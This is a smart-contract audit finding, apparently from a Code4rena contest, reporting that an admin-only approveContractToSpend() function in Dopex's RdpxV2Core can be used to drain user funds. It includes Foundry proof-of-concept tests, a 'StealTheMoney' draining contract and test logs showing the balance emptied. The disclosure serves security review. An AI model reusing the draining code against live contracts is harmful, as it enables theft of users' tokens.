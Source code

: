 # In the contract RdpxV2Core:approveContractToSpend() Possesses Significant Privileges.

## Lines of Code
- https://github.com/code-423n4/2023-08-dopex/blob/main/contracts/core/RdpxV2Core.sol#L396-L412

## Vulnerability details
### Impact
The protocol is vulnerable to easy rug-pulling by the `DEFAULT_ADMIN_ROLE`.
The functions `approveContractToSpend()` looks like this:
- https://github.com/code-423n4/2023-08-dopex/blob/main/contracts/core/RdpxV2Core.sol#L396-L412

```solidity
/**
   * @notice Approve a contract to spend a certain amount of tokens
   * @dev    Can only be called by admin
   * @param  _token the address of the token to approve
   * @param  _spender the address of the contract to approve
   * @param  _amount the amount to approve
   */
  function approveContractToSpend(
    address _token,
    address _spender,
    uint256 _amount
  ) external onlyRole(DEFAULT_ADMIN_ROLE) {
    _validate(_token != address(0), 17);
    _validate(_spender != address(0), 17);
    _validate(_amount > 0, 17);
    IERC20WithBurn(_token).approve(_spender, _amount);
  }
```
Reflecting on the function, it becomes evident that the administrator holds the power to `approve` any contract or external owned account `EOA`, granting them the ability to spend a `certain amount of tokens` at any time. This situation could be detrimental to investors who intend to participate in the `Dopex protocol`. While reviewing the protocol's documentation, explicit information about the entities responsible for overseeing these roles, whether it's a `Multisig` or `EOA` , was not found `but the sponsors let us know the following`:
```shell
they will be controlled by the protocol through a multisig

```
Even if the documentation provided clarity on role ownership, the inherent risk associated with the function remains concerning for user funds as it significantly deviates from the core principles of `DeFi` and `Web3` security should not be based on "trust".

### Proof of Concept
To assess the existing risk, we conducted two PoCs – one to demonstrate the ability to approve any External Owned Account (EOA), and another to showcase the feasibility of approving any contract.

- `PoC 1`: This PoC is to approve any external owned account that the admin wants can be approved.

1. `Copy and paste` the following test into the `tests/rdpxV2-core/Unit.t.sol`
   
```solidity
     function testEOACanBeApproved() public {
        // Lets make the rdpxV2Core contract has balance
        weth.transfer(address(rdpxV2Core), 25 * 1e18);

        address alice = makeAddr("alice");
        
        console.log("Balance of rdpxV2Core before being approved to an EOA:", weth.balanceOf(address(rdpxV2Core)));
        rdpxV2Core.approveContractToSpend(address(weth), alice, 25 * 1e18);

        // now the address that the admin approved can steal the tokens approved by admin
        console.log("EOA make the tx");
        vm.startPrank(alice);
        weth.transferFrom(address(rdpxV2Core), alice, 25 * 1e18);
        console.log("rdpxV2Core balance after rugpull from the alice address :", weth.balanceOf(address(rdpxV2Core)));
        vm.stopPrank();
    }
```   
2. run test with the following command `forge test --match-test testEOACanBeApproved -vv`

The output is:

```terminal
Running 1 test for tests/rdpxV2-core/Unit.t.sol:Unit
[PASS] testEOACanBeApproved() (gas: 85071)
Logs:
  Balance of rdpxV2Core before being approved to an EOA: 25000000000000000000
  EOA make the tx
  rdpxV2Core balance after rugpull from the alice address : 0

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 682.50ms
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

- `PoC 2`: This Proof of Concept (PoC) aims to approve any contract that the administrator desires. In this case, we created a malicious contract to demonstrate how unsafe it can be for the users..

1. `Copy and paste` the following test into the `tests/rdpxV2-core/Unit.t.sol`

```solidity
    function testAdminCanCauseRugpull() public {
        // Lets make the rdpxV2Core contract has balance
        weth.transfer(address(rdpxV2Core), 25 * 1e18);
 
        StealTheMoney stealTheMoneyContract = new StealTheMoney(address(weth));
        console.log("rdpxV2Core balance before rugpull from the contract:", weth.balanceOf(address(rdpxV2Core)));
        // Try to approve whatever contract the admin want to approve
        rdpxV2Core.approveContractToSpend(address(weth), address(stealTheMoneyContract), 25 * 1e18);

        // now the contract address that the admin approved can steal the tokens approved by admin
        console.log("Contract make the tx");
        vm.prank(address(stealTheMoneyContract));
        stealTheMoneyContract.sendAllTheMoney(address(rdpxV2Core), address(11), 25 * 1e18);
        // weth.transferFrom(address(rdpxV2Core), address(11), 25 * 1e18);
        console.log("rdpxV2Core balance after rugpull from the contract:", weth.balanceOf(address(rdpxV2Core)));
    }
```
2. then out of the test `copy and paste` this contract:
```solidity
interface IWeth {
    function transferFrom(address src, address dst, uint wad) external;
}

contract StealTheMoney  {
    IWeth weth;

    constructor(address _weth) {
        weth = IWeth(_weth);
    }

    function sendAllTheMoney(address _from, address _to, uint256 _amount) external {
        weth.transferFrom(_from, _to , _amount);
    }
}
```

3. run the test with this command `forge test --match-test testAdminCanCauseRugpull -vv`

The output is:

```terminal
Running 1 test for tests/rdpxV2-core/Unit.t.sol:Unit
[PASS] testAdminCanCauseRugpull() (gas: 190425)
Logs:
  rdpxV2Core balance before rugpull from the contract: 25000000000000000000
  Contract make the tx
  rdpxV2Core balance after rugpull from the contract: 0

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 588.43ms
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
### Tools Used
Foundry and Manual review.

### Recommended Mitigation Steps
This is due to an insecure design of the protocol. So as far as recommendations go, the team should reconsider the function's design.